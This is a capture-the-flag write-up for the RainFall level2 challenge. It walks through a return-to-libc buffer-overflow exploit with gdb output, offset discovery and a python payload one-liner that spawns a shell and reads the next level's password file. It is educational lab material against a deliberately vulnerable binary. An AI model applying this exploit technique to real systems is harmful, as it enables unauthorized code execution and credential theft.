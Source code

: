 As seen in the disassembled code, the program uses the gets() function to take user input :

```
gdb ./level2
disass p
```

but this time we also see that check ensures that the return address is not overwritten with an address on the stack:

```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```


We will bypass this check using a return-to-libc exploit. First, we find the address of the system function in libc:
```
$> gdb ./level2
gdb> b main
gdb> r
gdb> p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
in little-endian : `\x60\xb0\xe6\xb7`

Then, we write a small program to find the address of environment variables (available in ressoures).
```
$ gcc getenv.c -o getenv
$ ./getenv SHELL
SHELL is at 0xbffff935
```
Next, we find the address of the ret instruction:
```
0x804853e <p+106>:	ret
```
We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
level2@RainFall:~$ gdb ./level2 
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```
We find that the buffer size is 80

Next, we need to construct the payload to exploit the vulnerability using the following format:
```
buffer + return address + system function address + fake return address + "/bin/sh" address from libc
```
```
$ python -c 'print "A" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "4242" + "\x35\xf9\xff\xbf"' > /tmp/payload2
$ cat /tmp/payload2 - | ./level2
$ cat /home/user/level3/.pass

```
